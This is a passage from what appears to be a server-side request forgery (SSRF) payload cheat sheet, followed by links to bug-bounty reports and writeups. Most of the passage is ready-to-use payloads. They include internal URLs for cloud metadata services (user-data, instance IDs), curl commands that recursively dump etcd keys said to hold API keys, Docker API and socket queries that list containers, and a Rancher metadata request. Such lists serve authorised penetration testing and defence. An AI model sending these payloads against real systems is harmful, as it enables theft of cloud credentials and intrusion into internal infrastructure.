 ```powershell
http://192.0.0.192/latest/
http://192.0.0.192/latest/user-data/
http://192.0.0.192/latest/meta-data/
http://192.0.0.192/latest/attributes/
```

### SSRF URL for Alibaba

```powershell
http://100.100.100.200/latest/meta-data/
http://100.100.100.200/latest/meta-data/instance-id
http://100.100.100.200/latest/meta-data/image-id
```

### SSRF URL for Kubernetes ETCD

Can contain API keys and internal ip and ports

```powershell
curl -L http://127.0.0.1:2379/version
curl http://127.0.0.1:2379/v2/keys/?recursive=true
```

### SSRF URL for Docker

```powershell
http://127.0.0.1:2375/v1.24/containers/json

Simple example
docker run -ti -v /var/run/docker.sock:/var/run/docker.sock bash
bash-4.4# curl --unix-socket /var/run/docker.sock http://foo/containers/json
bash-4.4# curl --unix-socket /var/run/docker.sock http://foo/images/json
```

More info:

- Daemon socket option: https://docs.docker.com/engine/reference/commandline/dockerd/#daemon-socket-option
- Docker Engine API: https://docs.docker.com/engine/api/latest/

### SSRF URL for Rancher

```powershell
curl http://rancher-metadata/<version>/<path>
```

More info: https://rancher.com/docs/rancher/v1.6/en/rancher-services/metadata-service/


## References

- [Extracting AWS metadata via SSRF in Google Acquisition - tghawkins - 2017-12-13](https://hawkinsecurity.com/2017/12/13/extracting-aws-metadata-via-ssrf-in-google-acquisition/)
- [ESEA Server-Side Request Forgery and Querying AWS Meta Data](http://buer.haus/2016/04/18/esea-server-side-request-forgery-and-querying-aws-meta-data/) by Brett Buerhaus
- [SSRF and local file read in video to gif converter](https://hackerone.com/reports/115857)
- [SSRF in https://imgur.com/vidgif/url](https://hackerone.com/reports/115748)
- [SSRF in proxy.duckduckgo.com](https://hackerone.com/reports/358119)
- [Blind SSRF on errors.hackerone.net](https://hackerone.com/reports/374737)
- [SSRF on *shopifycloud.com](https://hackerone.com/reports/382612)
- [Hackerone - How To: Server-Side Request Forgery (SSRF)](https://www.hackerone.com/blog-How-To-Server-Side-Request-Forgery-SSRF)
- [Awesome URL abuse for SSRF by @orange_8361 #BHUSA](https://twitter.com/albinowax/status/890725759861403648)
- [How I Chained 4 vulnerabilities on GitHub Enterprise, From SSRF Execution Chain to RCE! Orange Tsai](http://blog.orange.tw/2017/07/how-i-chained-4-vulnerabilities-on.html)